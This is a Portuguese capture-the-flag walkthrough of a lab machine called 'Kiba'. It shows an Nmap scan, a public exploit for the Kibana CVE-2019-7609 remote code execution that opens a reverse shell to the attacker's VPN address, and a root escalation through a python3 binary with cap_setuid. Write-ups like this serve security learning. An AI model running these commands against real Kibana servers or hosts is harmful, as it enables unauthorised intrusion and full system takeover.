





# _**Kiba**_


## _**Enumeração**_
_What is the vulnerability that is specific to programming languages with prototype-based inheritance?_  
A poluição do protótipo é uma vulnerabilidade de segurança que permite que um invasor modifique o protótipo de objetos base (como Object.prototype em JavaScript), o que afeta todos os objetos que herdam dele  

Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p- -A --open [ip_address]
> ```


Temos alguns serviços como website, SSH e Kibana  
Vamos tentar obter a versão do Kibana  
Visitando o website na porta descoberta e indo em _management_, temos a versão  
Agora, no google procuramos por alguma CVE relacionada ao **Kibana 6.5.4**  
Encontramos a seguinte [CVE-2019-7609](https://nvd.nist.gov/vuln/detail/cve-2019-7609)  
Procurando no google novamente, encontramos [este exploit no github](https://github.com/LandGrey/CVE-2019-7609)  
Verificamos como usar e temos o comando abaixo
> ```bash
> python2 CVE-2019-7609-kibana-rce.py -u http://[ip_address]:5601 -host [vpn_ip_address] -port [port] --shell
> ```


Obtemos shell!  
Continuando, temos que para listar todas as _capabilities_, usamos o comando ```getcap -r / 2>/dev/null```  



Encontramos algo de interessante  
Parece que o arquivo tem **cap_setuid+ep**, isso refere-se à capacidade de definir o ID do usuário ao executar o arquivo  
Esse recurso permite que o programa altere temporariamente seu ID de usuário efetivo para o do proprietário do arquivo, mesmo que o usuário que o executa não tenha privilégios de root  
Ter a capacidade _cap_setuid+ep_ em um arquivo significa que ele pode ser executado com os privilégios de seu proprietário, mesmo que o usuário que o executa não tenha esses privilégios  
Esse recurso pode ser potencialmente usado de forma abusiva para ataques de escalonamento de privilégios se houver vulnerabilidades no arquivo ou em seus programas associados  
Consultando [GFTOBins](https://gtfobins.github.io/gtfobins/python/#capabilities), temos  



Executamos o comando abaixo e obtemos root  
> ```bash
> cd /home/kiba/.hackmeplease
> ./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
> ```

